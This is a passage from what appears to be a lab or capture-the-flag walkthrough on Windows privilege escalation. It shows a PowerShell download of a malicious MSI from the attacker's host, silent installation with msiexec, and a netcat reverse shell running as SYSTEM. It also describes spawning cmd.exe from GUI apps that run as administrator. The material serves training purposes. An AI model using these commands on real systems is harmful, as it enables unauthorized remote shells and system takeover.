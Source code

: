 We’ll upload it just like I did with WinPEAS:

```bash
C:\ProgramData>powershell wget http://10.10.14.6/rev.msi -outfile rev.msi
```

This requests the file from our Python webserver and fetches the MSI.

Now we just need to run it with `msiexec`:

```
C:\ProgramData>msiexec /quiet /qn /i rev.msi
```

This returns nothing, but there’s a shell at our listening `nc`:

```
wixnic@kali$ rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 61878
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

We can grab the root flag from the administrator’s desktop:

```
C:\Users\Administrator\Desktop>type root.txt
82f9ddad************************
```

## Applications

### Insecure GUI Apps&#x20;

Users on some (earlier) versions of Windows may be given the ability to execute some GUI software with administrator capabilities. There are a variety of methods for spawning command prompts from within GUI software, including native Windows capability. The generated command prompt will execute with administrator privileges because the parent process is running with them.

#### Insecure GUI Apps Privilege Escalation

1.  Open a command prompt and run:

    ```
    > tasklist /V | findstr vulnerable.exe
    ```

    > Note that the executable must be running with admin privileges.
2. In the vulnerable GUI executable, click File, then Open.
3.  In the navigation input, replace the contents with a malicious file:

    ```
    file://c:/windows/system32/cmd.exe
    ```
4. Press Enter and then the malicious file will be executed.
